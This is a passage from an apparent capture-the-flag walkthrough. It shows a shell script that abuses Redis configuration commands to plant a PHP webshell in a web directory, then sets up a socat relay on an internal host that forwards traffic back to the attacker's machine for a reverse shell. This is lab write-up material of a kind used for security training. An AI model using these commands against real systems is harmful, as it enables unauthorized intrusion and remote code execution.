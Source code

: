 ![1532632149713](https://0xdfimages.gitlab.io/img/1532632149713.png)

#### Script Redis WebShell

The files in the web directory seem to be cleared out every 3 minutes (I’ll
confirm this soon), so I have to work quick. I scripted the upload:

    
    
    #!/bin/sh
    
    redis-cli -h 127.0.0.1 flushall
    cat redis.txt | redis-cli -h 127.0.0.1 -x set crackit
    redis-cli -h 127.0.0.1 config set dir /var/www/html/8924d0549008565c554f8128cd11fda4/
    redis-cli -h 127.0.0.1 config set dbfilename "df.php"
    redis-cli -h 127.0.0.1 save
    

On running, it puts the cmd shell in place:

    
    
    root@kali# ./upload_shell.sh
    OK
    OK
    OK
    OK
    OK
    

### Interactive Shell

Now with command execution, I’ll get an interactive shell.

#### Connectivity - socat

It doesn’t look like I can connect all the back to kali from this host. `which
ping` returns `/bin/ping`, but trying to `ping 10.10.14.14` doesn’t result in
anything when watching in `tcpdump`. When I try to `ping 172.19.0.3`
(nodered), I get results:

![1532632323890](https://0xdfimages.gitlab.io/img/1532632323890.png)

So I need to pivot through nodered. I’ll upload a static copy of socat to the
box using the Node-Red flow for upload. Now I can use `socat` one of two ways:

  1. Relay traffic through nodered back to kali
  2. Catch the callback on nodered

I’ll do the first one, so in the shell on nodered, create a tunnel:

    
    
    # /tmp/s tcp-listen:223,fork tcp:10.10.14.14:223 &
    

That will run in the background, and forward any traffic that hits port 223 on
nodered to my workstation on port 223.

